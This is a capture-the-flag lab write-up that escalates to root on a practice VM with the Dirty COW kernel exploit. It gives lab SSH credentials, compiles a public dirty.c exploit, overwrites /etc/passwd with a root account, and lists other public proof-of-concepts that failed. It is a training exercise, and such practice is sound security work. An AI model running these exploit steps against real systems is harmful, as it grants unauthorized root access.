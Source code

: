 # Dirtycow

Starting with the knowledge gained during `writeup1.md`.

```sh
ip	: 192.168.1.7
user: zaz
pass: 646da671ca01bb5d84dbb5fb2238dc8e
```

We connect by ssh with the following credentials:

```sh
ssh zaz@192.168.1.7
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@192.168.1.7's password:
zaz@BornToSecHackMe:~$

```

We will use the file `dirty.c` which can be found in the `scripts/` directory

We got the source from here: https://github.com/FireFart/dirtycow/blob/master/dirty.c

We save it to a file named `dirty.c` in zaz home directory and compile it

```sh
zaz@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
```

We can now execute it with our choosen password:

```sh
zaz@BornToSecHackMe:~$ ./dirty prout
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: prout
Complete line:
firefart:fihHKdB5BBfTw:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'prout'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'prout'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

login to the new user created `firefart` and verifying our id:

```sh
zaz@BornToSecHackMe:~$ su firefart
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@BornToSecHackMe:/home/zaz# exit
```

# Unsuccessfull attempts

Not working but tested, from : https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

 1. dirtyc0w.c https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c

Tested on timezone which is with read rights for user, but write for root.
ls -l /etc/timezone && cat /etc/timezone && ./dirtyc0w /etc/timezone m00000000000000000 && cat /etc/timezone


 2. dirtycow-mem.c https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2

with LIBC_PATH = "/lib/i386-linux-gnu/libc.so.6"

tried this also, but no permission
https://github.com/dirtycow/dirtycow.github.io/issues/25#issuecomment-255852675


 3. cowroot.c https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679

 With the x86 (not default) shellcode

 4. dirtyc0w.go https://github.com/mengzhuo/dirty-cow-golang/blob/master/dirtyc0w.go

 No go interpreter

 5. dcow.cpp https://github.com/gbonacini/CVE-2016-5195

 No c++ bin, and gcc cant do it himself

 ```sh
 zaz@BornToSecHackMe:~/CVE-2016-5195$ make
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
make: g++: Command not found
make: *** [dcow] Error 127
zaz@BornToSecHackMe:~/CVE-2016-5195$ vim makefile
zaz@BornToSecHackMe:~/CVE-2016-5195$ make
gcc -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil -lstdc++
gcc: error trying to exec 'cc1plus': execvp: No such file or directory
make: *** [dcow] Error 1
zaz@BornToSecHackMe:~/CVE-2016-5195$ fg
-bash: fg: current: no such job
zaz@BornToSecHackMe:~/CVE-2016-5195$ vim makefile
zaz@BornToSecHackMe:~/CVE-2016-5195$ make
gcc -Wall -pedantic -O2 -pthread -o dcow dcow.cpp -lutil -lstdc++
gcc: error trying to exec 'cc1plus': execvp: No such file or directory
make: *** [dcow] Error 1
 ```

  6. cowpy.c https://github.com/nowsecure/dirtycow

  It's a r2pm plugin, cant install

  7. 0xdeadbeef.c https://github.com/scumjr/dirtycow-vdso

  missing nasm

  8. dirty_passwd_adjust_cow.c https://gist.github.com/ngaro/05e084ca638340723b309cd304be77b2

 consistent segfault
